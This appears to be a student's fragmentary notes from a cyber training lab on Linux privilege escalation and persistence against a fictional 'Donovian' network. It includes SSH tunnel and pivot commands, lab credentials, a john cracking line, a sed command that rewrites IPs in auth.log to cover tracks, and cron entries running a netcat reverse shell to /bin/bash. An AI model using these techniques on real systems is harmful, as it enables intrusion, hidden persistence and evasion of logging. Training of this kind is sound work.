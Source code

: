 onovian Linux Privilege Escalation, and Persistence (DLP)
XX Feb 2027
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Linux hosts.

Tools/Techniques: SSH masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Linux techniques to gain privileged access and persist are limited to host misconfigurations, open suid/sgid, weak permissions, and path. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = H@RDl1nux5t@rt0F@ct1v1ty

Prior Approvals: Privilege escalation, persistence, and restarting of services through host reboot. Host survey and log sanitation utilizing native command shells, which shell is at discretion of student. NOT authorized is uploading of tools or altering account information.

Scheme of Maneuver:
>10.50.39.150
->Pivot:192.168.28.105
--->T1: 192.168.28.27
--->T2: 192.168.28.12
ssh student@10.50.39.150 -L 10300:192.168.28.105:2222
ssh comrade@localhost -p 10300 -L 10301:192.168.28.27:22
ssh comrade@localhost -p 10300 -D 9050

scp 

Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: lin1:internal.donovia
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
https://www.the-art-of-web.com/system/rsyslog-config/

john [FILE] --wordlist=[wordlist]
1f6a18d981eef6e


usacys@workstation07:~/Downloads$ grep -rl auth /home/usacys/Downloads/auth.log | xargs sed -i 's/172.16.4.6/192.168.1.103/g'
usacys@workstation07:~/Downloads$ cat auth.log | grep 172
Mar 11 10:15:30 localhost sshd[7172]: Connection closed by authenticating user billybob 192.168.1.115 port 51098 [preauth]
usacys@workstation07:~/Downloads$ md5sum auth.log 
bbe9a512fe8a20773081fdf164a56997  auth.log





9771390 - 

*/1 * * * * nc 192.168.28.135 33403 -e /bin/bash #var/spool/crontabs
*/1 * * * * root nc 192.168.28.135 33403 -e /bin/bash 

